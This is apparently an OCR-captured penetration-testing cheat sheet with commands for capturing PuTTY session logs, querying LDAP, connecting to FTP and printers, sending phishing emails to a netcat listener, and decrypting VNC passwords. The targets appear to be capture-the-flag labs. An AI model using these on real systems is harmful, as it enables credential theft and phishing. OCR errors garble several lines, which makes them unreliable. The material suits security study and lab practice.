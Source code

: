 ```text
[HKEY_CURRENT_USER\Software\Si~onTatham\Putt;\Sessions\Default%20Settings]
"LogFileName"="%TEMP%\putty.dat"
"LogType"=dword:00000002"
```

## ldap

### Search for important ldap information using impackt

```text
ldapsearch -h <host> -x -b "dc=<dc>,dc=local"
```

### Display all ldap structural information

```text
ldapsearch -x -LLL -w PASSWORD
```

#ftp

### Connect to ftp with username and password

```text
lftp -e 'set ssl:verify-certificate false' -u "user,pass" -p 21 10.10.10.10
```

## Printers

### Establish connection

```text
python pret.py 10.10.10.10 pjl
```

## Email sending and smtp password guessing

```text
1.
nc -lvnp 80

2.
while reading mail; do swaks --to $mail --from it@sneakymailer.htb --header "Subject: Credentials /
Errors" --body "goto http://10.10.10.19/" --server 10.10.10.10; done < mails.txt
```

## vnc

### Decode the VNC Install.reg file


```text
vncpwd.exe <ENCRYPTEDPASSWORD>
```
